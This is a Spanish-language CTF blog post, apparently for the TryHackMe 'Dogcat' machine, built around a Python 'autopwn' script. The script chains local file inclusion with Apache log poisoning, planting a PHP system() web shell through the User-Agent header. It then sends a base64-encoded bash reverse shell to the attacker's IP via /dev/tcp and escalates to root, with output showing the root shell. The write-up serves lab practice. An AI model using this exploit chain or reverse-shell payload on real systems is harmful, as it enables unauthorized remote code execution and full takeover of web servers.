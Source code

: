 ```yaml
---
layout: single
title: Dogcat (AutoPWN) - Try Hack Me
excerpt: "En esta máquina se abusa de un local file inclusion para efectuar un log poisoning logrando RCE luego de modificar el user agent inyectando instrucciones maliciosas, pero en este post te muestro un pequeño script autopwm hecho en python, el cual nos automatiza la intrusión y escalada de privilegios para convertirnos en root"
date: 2021-08-29
classes: wide
header:
  teaser: /assets/images/thm-autopwm-dogcat/Dogcat.png
  teaser_home_page: true
  icon: /assets/images/tryhackme.png
categories:
  - tryhackme
  - autopwn
  - scripting
tags:
  - python scripting
  - autopwn
  - web
  - lfi
  - log poisoning
  - user agent
---
```


<p align="center">
<img src="/assets/images/thm-autopwm-dogcat/img_header.png">
</p>

Esta es una máquina de dificultad media bastante sencilla, así que quise hacer un script autopwn que automatizara tanto la intrusión como la escalada de privilegios

Antes de usarlo se debe de ejecutar el siguite comando, para luego introducir el otput en el script:

```bash
~$> echo "/bin/bash -c 'bash -i >& /dev/tcp/[TU_IP]/443 0>&1'" | base64
L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjkuMjQyLjIxNy80NDMgMD4mMScK
```

Se modifica el payload y la url:

```python
#!/usr/bin/python3

import signal, time
from pwn import *

def def_handler(sig, frame):
	print("\n[!] Exiting...\n")
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

lport = 443
payload = 'echo "[CADENA_EN_BASE64]" | base64 -d | bash' # <- CHANGE THIS
url = 'http://[MACHINE_IP]/?view=./dog/../../../../../../../var/log/apache2/access.log&ext=&cmd=%s' % (payload)

def makeRequest():
	headers = {
	    'User-Agent': '<?php system($_GET[\'cmd\']); ?>'
	}

	r = requests.get(url, headers=headers)

if __name__ == '__main__':
	try:
		log.info("Gaining shell as www-data user")
		time.sleep(1)
		threading.Thread(target=makeRequest).start()
	except Exception as e:
		log.failure(str(e))

	shell = listen(lport, timeout=20).wait_for_connection()

	if shell.sock is None:
		log.failure("Cudn't connect")
	else:
		log.info("Obteining root")
		time.sleep(1)
		shell.sendline("export TERM=xterm; export SHELL=bash; /usr/bin/env /bin/bash -p")
		shell.interactive()

```

Y una vez ejecutado el script obtenemos shell como root:

```bash
~$>./Dogcat-AutoPWn.py
```
```bash
[*] Gaining shell as www-data user
[+] Trying to bind to :: on port 443: Done
[+] Waiting for connections on :::443: Got connection from ::ffff:10.10.52.7 on port 35786
[*] Obteining root
[*] Switching to interactive mode
$
```
```bash
$ whoami
root
```
